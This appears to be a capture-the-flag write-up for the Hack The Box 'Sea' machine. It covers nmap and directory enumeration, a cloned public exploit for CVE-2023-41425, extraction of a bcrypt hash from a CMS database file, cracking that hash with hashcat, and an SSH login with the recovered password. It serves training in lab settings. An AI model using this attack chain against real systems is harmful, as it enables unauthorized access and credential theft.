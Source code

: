 # Sea Write-up

<img src="https://labs.hackthebox.com/storage/avatars/0011f6725aed869f8683589cb08c90d0.png" width="200" height="200">

## Recon 

### Port enumeration with Nmap

`nmap -sC -sV 10.10.11.28`

    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   3072 e3:54:e0:72:20:3c:01:42:93:d1:66:9d:90:0c:ab:e8 (RSA)
    |   256 f3:24:4b:08:aa:51:9d:56:15:3d:67:56:74:7c:20:38 (ECDSA)
    |_  256 30:b1:05:c6:41:50:ff:22:a3:7f:41:06:0e:67:fd:50 (ED25519)
    80/tcp open  http    Apache httpd 2.4.41
    |_http-title: Sea - Home
    | http-cookie-flags: 
    |   /: 
    |     PHPSESSID: 
    |_      httponly flag not set
    Service Info: Host: sea.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Add `sea.htb` to `/etc/hosts`

    echo "10.10.11.28 sea.htb" | sudo tee -a /etc/hosts 

### Directory enumeration with Dirsearch

`python3 dirsearch.py -e php,html,js -u http://sea.htb 404,403,401,307`
                                      
    200 -    3KB - /404                                                                                   
    200 -    3KB - /contact.php                                      
    301 -  228B  - /data  ->  http://sea.htb/data/                                                       
    301 -  232B  - /messages  ->  http://sea.htb/messages/                                     
    301 -  231B  - /plugins  ->  http://sea.htb/plugins/             
    301 -  230B  - /themes  ->  http://sea.htb/themes/                   

![image](https://github.com/user-attachments/assets/fc57769e-68e8-428d-a7be-641db54399e1)

And so we found the directory `/themes/` where we don't have access. Let's try to find directories in this section as well

With using `directory-list-2.3-medium.txt` wordlist.

`python3 dirsearch.py -e php,html,js -u http://sea.htb/themes 404,403,401,307 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`

    200 -    4KB - /themes/home                                      
    200 -    3KB - /themes/404                                       
    301 -  235B  - /themes/bike  ->  http://sea.htb/themes/bike/

![image](https://github.com/user-attachments/assets/f354c8b8-084e-4394-87b7-a8e128c3c87a)

Try again for `/themes/bike/` directory
   
`python3 dirsearch.py -e php,html,js -u http://sea.htb/themes/bike/ 404,403,401,307 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`

    200 -    6B  - /themes/bike/version                              
    301 -  239B  - /themes/bike/img  ->  http://sea.htb/themes/bike/img/
    200 -    4KB - /themes/bike/home
    301 -  239B  - /themes/bike/css  ->  http://sea.htb/themes/bike/css/
    200 -   66B  - /themes/bike/summary                              
    200 -    3KB - /themes/bike/404                                  
    200 -    1KB - /themes/bike/LICENSE    

Let's check `sea.htb/themes/bike/LICENSE` and `sea.htb/themes/bike/summary`

![image](https://github.com/user-attachments/assets/7f3da3a7-1a99-4407-afbc-d589a8d3f5d2)

![image](https://github.com/user-attachments/assets/850e7ee9-d03c-46a2-bf53-07aa681a5a62)

## Exploitation

### CVE-2023-41425


    git clone https://github.com/prodigiousMind/CVE-2023-41425

![image](https://github.com/user-attachments/assets/19b772ec-4df9-4e14-ae4e-f2ee2b26564b)


![image](https://github.com/user-attachments/assets/e5e9ae5a-d9f1-4f91-baa0-82e10279429f)

![image](https://github.com/user-attachments/assets/4d290636-9b9a-4eae-999b-638138e681ab)

    cd /var/www/sea/data
    
    сat database.js | grep password

![image](https://github.com/user-attachments/assets/817e4a2e-3405-4329-9099-342adc7a4747)

hash `$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ\/D.GuE4jRIikYiWrD3TM\/PjDnXm4q`

    echo -n '$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ/D.GuE4jRIikYiWrD3TM/PjDnXm4q' > hash.txt

    hashcat -m 3200 -a 0 hash.txt /home/kali/wordlist/rockyou.txt 

![image](https://github.com/user-attachments/assets/d5277a85-d87f-43cc-a22a-08d6c405a9c9)

`$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ/D.GuE4jRIikYiWrD3TM/PjDnXm4q`:`mychemicalromance`

### SSH

Connet to SSH with `amay`:`mychemicalromance` credentials

ssh amay@sea.htb

## Get the user flag!

![image](https://github.com/user-attachments/assets/0c9d2c75-78ba-42e1-a255-de032d0c9076)

## Privilege Escalation

